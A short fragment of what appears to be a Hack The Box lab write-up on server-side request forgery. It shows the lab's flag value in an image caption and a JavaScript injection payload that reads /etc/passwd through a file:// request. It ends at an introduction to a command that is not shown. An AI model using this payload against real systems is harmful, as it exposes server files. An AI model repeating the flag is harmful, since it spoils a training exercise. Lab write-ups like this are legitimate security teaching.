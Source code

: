 <figure><img src="../../../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption><p>HTB{1nS3cuR3_c00k135}</p></figcaption></figure>

**Use the SSRF to Local File Read vulnerability to find a flag. Submit the flag value as your answer (flag format: HTB{}).**

{% code overflow="wrap" %}
```
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open('GET','file:///etc/passwd');x.send();</script>
```
{% endcode %}

To read flag run the following command.
